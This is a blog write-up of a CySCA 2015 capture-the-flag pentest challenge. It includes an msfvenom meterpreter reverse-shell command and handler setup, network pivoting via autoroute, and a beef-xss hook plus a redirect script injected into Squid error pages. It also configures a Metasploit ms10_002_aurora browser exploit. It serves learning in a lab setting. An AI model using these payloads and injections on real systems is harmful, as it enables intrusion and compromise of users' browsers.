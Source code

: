 ```yaml
---
title: CySCA 2015 - Corporate Pentest 3.0 - Flash Flood
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```



We are now connected to the company's proxy. We are given the hint early on 
that:

> Consider that the ECWI system is secure and does not allow direct traffic from 
> the DMZ to the internal network. Additionally, it does not allow direct 
> connections on arbitary ports from the internal network to the DMZ"


We perform some network connection analysis, using ifconfig, route, arp,
netstat, and additionally look at the squid access log.

<!--break-->

We deduce the following info:

- eth1 has IP address's: `ifconfig`
    - fd00:bad:cafe::300
    - 10.10.5.30
- eth0 has IP address `ifconfig`
    - 172.16.5.30
- There is a simulated user hitting the squid server from:
    - fd00:dead:beef::103
    - found this by: `tail -f /var/log/squid3/access.log`
- Netstat gave us some extra info `netstat tulpn`:
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60706 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60709 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60704 ESTABLISHED`
    - `tcp6       0      0 fd00:bad:cafe::300:3128 fd00:dead:beef::1:60707 ESTABLISHED`


Additionally, we used metasploit to scan the internal network.

We used msfvenom to generate our metasploit framework payload and copied it to
the proxy machine using scp

`msfvenom -f elf -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.5.101 LPORT=4444`

We fired up a metasploit console runnning the handler

{% highlight bash %}
$> msfconsole
 
(msfconsole) use exploit/multi/handler
(multi_handler) set PAYLOAD linux/x86/meterpreter/reverse_tcp
(multi_handler) set SET LHOST 192.168.5.101
(multi_handler) set SET LPORT 4444
(multi_handler) exploit 
{% endhighlight %}

We run the binary from the proxy machine and it connects back to us on our 
metasploit console.

Within the meterpreter session, we add routes so that we can access the eth1 
network from our own metasploit console. 

{% highlight bash %}
meterpreter> run autoroute -s 10.10.5.0/24
meterpreter> run autoroute -s fd00::
{% endhighlight %}

We made use of the following metasploit modules to scan the internal network,

 - auxiliary/scanner/portscan/tcp
 - auxiliary/scanner/discovery/udp_probe
 - and many more...


We deduce that there are no IPv4 clients on the subnet. We did not scan ipv6. 
We also take note that we are not sure of our results, since we are not trusting 
our metasploit session is routing correctly. 

Given this info, we create a diagram:

{% highlight bash %}
 --------------------
| Me!                |
| 192.168.5.101      | -----
 --------------------       |
                            |
                            |
             ---------------------------
            | Proxy Server              |
            | -   -   -   -   -   -   - |
 Public/DMZ | eth0 - 172.16.5.30        | ----
------------| -   -   -   -   -   -   - |     | eth0 can connect to eth1 via 
 Internal   | eth1 - 10.10.5.30         | <---  proxy @:3128. This means I can 
            |      - fd00:bad:cafe::300 |       talk to hosts on the internal 
             ---------------------------        via the proxy.
                        |
          10.10.5.0/24 AND fd00::               Cannot talk directly, as stated
                        |                       in the clue.
                -----------------
                |                |
               ???     ---------------------
                      | Simulated User      |
                      | fd00:dead:beef::103 | <- There appears to be a host 
                       ---------------------     using the proxy from an ipv6
                                                 address... wat. No ipv4??

                                                 Theoretically, the simulated 
                                                 user /should/ be able to talk 
                                                 to "Me" via the proxy, just
                                                 as I can talk to it, thanks to
                                                 the misconfiguration.

                                                 I cannot, however, open
                                                 a direct connection from 
                                                 Simulated User to Me, since
                                                 the given clue states that
                                                 this is impossible. 

{% endhighlight %}

We are also given another clue, however it's a bit late to the party:

> Consider the services that you have used to get here, maybe others are using 
> them as well... How would you find that out? And keep up your resolv.conf

...and another

> Look in the log file folder that has the same name as a sea creature. When 
> you find the target, find their version, then find the exploit.

...and another

> 11.7.700.202 might be relevant. Remember proxys are are generally used for 
> internal users to browse the internet.

We did not use theese hints, however 11.7.700.202 looks like it might be
an ipv6 address in dotted decimal form...

During the competition, I did not stop to think about the final sentence in the 
3rd hint, **find their version**. Additionally, I did not stop to think to 
consider the challenge name **'flash flood'**. This was clearly a challenge where 
we were required to exploit flash on the simulated user's machine...

With that sidenote mentioned, I will explain my attack surface, and how I 
attempted to gain access via a java exploit.

Since we know the simulated machine is actually accessing the proxy, but hitting a 
`TCP_MISS/503` for all of its requests, we can easily mess around with the
error page that squid spits out, and add our arbitrary content there to 
allow us to fingerprint the user's browser. 

We fire up beef-xss on our kali virtual machine. We are given a script tag
to place in the page sent to the client. (which I have determined to be 
`ERR_DNS_FAIL`) for most requests. Putting the script tag on this page, we now 
can get some idea of what OS the client is running

We quickly test that beef is functioning correctly via the proxy, so in our own 
proxied firefox session, we open a broken page, ie `http://hipsterpics.cysca/`. 

Our machine appears in the beef-xss console. Our POC works! It's just a little 
wait until the simulated user loads up our payload, and before we know it, the
machine is listed in the beef-xss control panel.

We choose the machine, fingerprint it, and check the software it is runnning.

It has:

 - UA: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0; SLCC2; 
   .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 
   6.0; .NET4.0C; .NET4.0E)
 - UA: (Friendlier): IE10.0 For Desktop
 - OS: Windows 7
 - JRE: jre_16 jre_17.
 - **Flash Player 8**.

With this knowledge, we can begin exploiting java and pure ie10 (lol yeah... 
I didn't really think this through)... 

Attempting to use various java payloads, including browser_autopwn, no success
is had. None of the payloads will connect back to us.

An example of a msf payload I used:

{% highlight bash %}
use exploit/windows/browser/ms10_002_aurora
(ms10_002_aurora) show options
... options here...
(ms10_002_aurora) set SRVHOST 192.168.5.101  # Place to host the initial payload
(ms10_002_aurora) set SRVPORT 80             # Port for initial payload
(ms10_002_aurora) set URIPATH /              # exploit will be accesisble at /

(ms10_002_aurora) set PAYLOAD windows/meterpreter/reverse_http
(ms10_002_aurora) set LHOST 192.168.5.101 # The host to connect back to...
                                          # the reverse_http payload will 
                                          # connect back via HTTP, and if a 
                                          # proxy exists, connects via it, so 
                                          # the payload should be able to 
                                          # connect back to us.
(ms10_002_aurora) set LPORT 443           # Proxy friendly HTTP POrt
{% endhighlight %}

Now, we modify our `ERR_DNS_FAIL` page again, but this time to have a 
`<script>document.location='http://192.168.5.101/'</script>`. This will 
bring simulated users to our exploit endpoint. 

We wait about 20 seconds... The simulated user comes and downloads the payload, but 
no connection is made back to us... something is wrong. We try multiple 
different exploits relating to java and pure IE10, however no progress it made.

It's worth noting that we were chasing a red-herring here. It appeared the 
machine was executing in-browser applets with an old version of java, as 
every now and then, it would make a request to oracle to download an MSI 
installer of jre_16 (via the proxy), however, maybe that was an indication 
that it wasn't installed?

It's unfortunate that we were unable to get further than this, since there were
many more challanges to unlock once this hurdle was completed. With that being 
said, I have learnt so much about metasploit/remote exploitation and would 
now feel comfortable using it day-to-day.




